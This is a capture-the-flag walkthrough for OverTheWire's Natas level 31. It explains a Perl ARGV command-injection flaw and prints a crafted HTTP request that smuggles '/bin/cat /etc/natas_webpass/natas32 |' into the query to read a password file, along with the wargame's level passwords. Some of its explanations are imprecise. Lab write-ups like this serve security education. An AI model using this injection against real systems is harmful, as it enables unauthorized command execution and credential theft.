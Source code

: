 # Natas CTF Solutions  

## Natas Level 31  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit a **command injection vulnerability** through the `ARGV` parameter to execute shell commands and read the password file.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas31.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas31`  
- **Password:** Use the password from Natas Level 30:  
```
m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y
```  

![Home_Page](https://github.com/user-attachments/assets/3b509467-bfe1-49aa-bf4b-bf712ecdbb69)

---

### **Step 3: Review the Source Code**  
The script is vulnerable because it takes `ARGV` as an input and processes it as part of a shell command:  

```perl
while (<$file>) {
    print;
}
```  

✅ This allows **remote code execution** through command injection.  

![Source_Code](https://github.com/user-attachments/assets/64ab559c-f13b-4a83-a97e-2d9c0407fc7c)

---

### **Step 4: Exploit with Burp Suite**  
1. Open **Burp Suite** and intercept the request.  
2. Modify the request to include a shell command using `|`.  

Example Request:  
```http
POST /index.pl?/bin/cat%20/etc/natas_webpass/natas32%20| HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Authorization: Basic bmF0YXMzMTptN2JmakFIcEpN... [base64]
Content-Type: multipart/form-data; boundary=---------------------------22300568631535773882564733342

-----------------------------22300568631535773882564733342
Content-Disposition: form-data; name="file";
Content-Type: text/plain

ARGV
-----------------------------22300568631535773882564733342
```

✅ **Explanation:**  
- `?/bin/cat%20/etc/natas_webpass/natas32%20|` → Executes `cat` command to read the password file.  
- `ARGV` → The input is processed by the script and passed to the shell.  

![BurpSuite](https://github.com/user-attachments/assets/35c896fc-6e57-4b9e-8049-0fcf30a7cd4f)

---

### **✅ Password for Natas Level 32**  
```
NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
```

---

## 💡 **Lessons Learned**  
✔️ **Command Injection:** Shell commands can be injected through misconfigured parameters.  
✔️ **File Input Exploitation:** If file inputs are not properly sanitized, it can lead to remote code execution (RCE).  
✔️ **URL Encoding:** `%20` represents a space — useful for bypassing filters and executing commands.  
✔️ **Burp Suite Manipulation:** Modifying POST requests manually allows deeper testing.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![Source_Code](https://github.com/user-attachments/assets/64ab559c-f13b-4a83-a97e-2d9c0407fc7c) |  
| Step 4 – Burp Suite Request | ![BurpSuite](https://github.com/user-attachments/assets/35c896fc-6e57-4b9e-8049-0fcf30a7cd4f) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 32**:  
👉 [http://natas32.natas.labs.overthewire.org](http://natas32.natas.labs.overthewire.org)  

---

